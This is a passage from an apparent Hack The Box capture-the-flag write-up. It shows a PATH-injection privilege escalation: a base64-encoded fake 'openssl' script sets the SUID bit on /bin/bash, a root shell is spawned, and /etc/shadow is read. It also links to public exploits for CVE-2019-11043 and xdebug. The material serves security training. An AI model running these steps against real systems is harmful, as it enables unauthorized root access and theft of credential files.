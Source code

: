 ### PATH Injection

The idea is to modify the `$PATH` environment variable to point `openssl` to
a custom script that'll set the UID bit on `/bin/bash`.

The target has very limited tools, so we'll have to do with bash to download
the relevant files on the box.

```bash
echo -ne '#!/bin/bash\nchmod u+s /bin/bash\n' | base64 -w0
# IyEvYmluL2Jhc2gKY2htb2QgdStzIC9iaW4vYmFzaAo=
```

```bash
mkdir /tmp/pwn && cd /tmp/pwn
echo -n 'IyEvYmluL2Jhc2gKY2htb2QgdStzIC9iaW4vYmFzaAo=' | base64 -d > openssl
chmod 755 openssl
export PATH=/tmp/pwn:$PATH
ersatool
# create a
# exit
/bin/bash -p
cat /etc/shadow | grep -ia root
# root:*:18332:0:99999:7:::
cat /root/notes.txt
# Resources used for creation of this box:

# https://github.com/lfkeitel/php-totp
# https://github.com/gteissier/xdebug-shell
# https://github.com/neex/phuip-fpizdam
```

[author-profile]: https://app.hackthebox.com/users/9631

[cve-2019-11043]: https://github.com/theMiddleBlue/CVE-2019-11043
[otphp]: https://github.com/lelag/otphp
[fixgz]: https://github.com/yonjar/fixgz
[phpinfo]: images/screenshots/phpinfo.png
[pki-domain]: images/screenshots/pki.png
[xdebug-rce]: https://www.rapid7.com/db/modules/exploit/unix/http/xdebug_unauth_exec/
